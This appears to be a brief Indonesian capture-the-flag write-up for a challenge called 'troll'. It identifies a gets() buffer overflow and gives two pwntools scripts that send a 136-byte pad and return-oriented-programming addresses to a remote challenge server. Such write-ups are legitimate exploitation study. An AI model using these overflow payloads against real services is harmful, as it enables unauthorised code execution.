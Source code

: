# troll

fungsi gets() terdapat vulnerability bufferoverflow. dapat dilakukan ROP ke fungsi win atau lose. pada fungsi lose, dialkukan print(“redacted”). kemungkinan flag berada disini
<br>

```
from pwn import *

r = remote('34.87.0.60', 2058)

r.sendline('ABC')

r.sendline('ABC')

p = 'A'*136

p += p64(0x0000000000401172)

r.sendline(p)

r.interactive()
```

<br>

```

from pwn import *

payload=

'a'*136+p64(0x0000000000401172)+p64(0xcafe6abe)+p64(0x0000000000401369)+p64(0xb0a75f00)+p64(0)+p64(0x0000000000

401152)


#r=process('./TrollFILE')

r=remote('34.87.0.60',2058)

#gdb.attach(r) 
print r.recv() 
r.sendline('a') 
print r.recv() 
r.sendline('a') 
print r.recv() 
r.sendline(payload) 
print r.recv() 
r.interactive()

```
